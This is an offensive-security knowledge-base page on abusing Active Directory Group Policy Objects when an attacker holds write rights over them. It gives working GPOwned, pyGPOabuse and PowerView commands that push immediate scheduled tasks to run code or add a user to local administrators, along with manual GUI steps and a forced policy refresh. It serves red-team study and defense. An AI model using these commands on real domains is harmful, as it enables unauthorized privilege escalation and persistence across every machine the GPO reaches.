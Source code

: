 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# Group policies

## Theory

"Group Policy" is a management feature of Active Directory. It allows admins to manage computers and users. Group Policy Objetcs (GPOs) make up Group Policies. GPOs are associated to AD objects (sites, domains, organizational units (OUs)).

> Group Policies can include security options, registry keys, software installation, and scripts for startup and shutdown and domain members refresh group policy settings every 90 minutes by default (5 minutes for Domain Controllers). This means that Group Policy enforces configured settings on the targeted computer.
>
> [adsecurity.org](https://adsecurity.org/?p=2716)

In certain scenarios, an attacker can gain control over GPOs. Some ACEs can give that control (see [this BlackHat talk](https://www.blackhat.com/docs/us-17/wednesday/us-17-Robbins-An-ACE-Up-The-Sleeve-Designing-Active-Directory-DACL-Backdoors-wp.pdf), page 28):

* `WriteProperty` to the `GPC-File-Sys-Path` property of a GPO (specific GUID specified)
* `GenericAll`, `GenericWrite`, `WriteProperty` to any property (no GUID specified)
* `WriteDacl`, `WriteOwner`

## Practice

GPO-based attacks can be conducted with [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module), [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) (C#), or [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse) (python) and [GPOwned](https://github.com/X-C3LL/GPOwned) (Python) for UNIX-like systems.

### Immediate Scheduled Task

An attacker can edit the GPO to add a scheduled task that runs instantly and removes itself after, every time Group Policy refreshes. The attacker can then gain access to all AD objects this GPO applies to.

::: tabs

=== UNIX-like

From UNIX-like systems, a new immediate scheduled task can be created with [GPOwned](https://github.com/X-C3LL/GPOwned) (Python) or added to an existing GPO with [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse) (Python).

```bash
# GPOwned (buggy, not to use in production) - execute something (e.g. calc.exe)
GPOwned -u 'user' -p 'password' -d 'domain' -dc-ip 'domaincontroller' -gpoimmtask -name '{12345677-ABCD-9876-ABCD-123456789012}' -author 'DOMAIN\Administrator' -taskname 'Some name' -taskdescription 'Some description' -dstpath 'c:\windows\system32\calc.exe'

# pyGPOabuse, update an existing GPO - add a local admin
pygpoabuse 'domain'/'user':'password' -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
```


=== Windows

From Windows, a new immediate scheduled task can be created with [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) module (Powershell). In the following example, a user is added to the local administrators group.

```bash
New-GPOImmediateTask -Verbose -Force -TaskName 'TaskName' -GPODisplayName 'GPODisplayName' -Command cmd -CommandArguments "/c net localgroup administrators shutdown /add"
```

After a successful execution, the scheduled task can be removed with the following command.

```bash
New-GPOImmediateTask -Force -Remove -GPODisplayName 'GPODisplayName'
```

:::


### Manually adding a user to the local admin group

An attacker can also manually add a user to the local administrator group. This can be achieved with the Group Policy Management Editor.

Step 1: create the user

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Create > User name: `

Step 2: add the user to the local admin group

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Update > Group name :  > Members: Add: `

### Force Group Policy update

Domain members refresh group policy settings every 90 minutes by default but it can locally be forced with the following command: `gpupdate /force`.

### Other exploitation paths

In addition to the aforementioned exploitation paths, GPOs can be abused in other ways: leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.

## Resources

[https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)

[https://adsecurity.org/?p=2716](https://adsecurity.org/?p=2716)

[https://beta.hackndo.com/gpo-abuse-with-edit-settings/](https://beta.hackndo.com/gpo-abuse-with-edit-settings/)
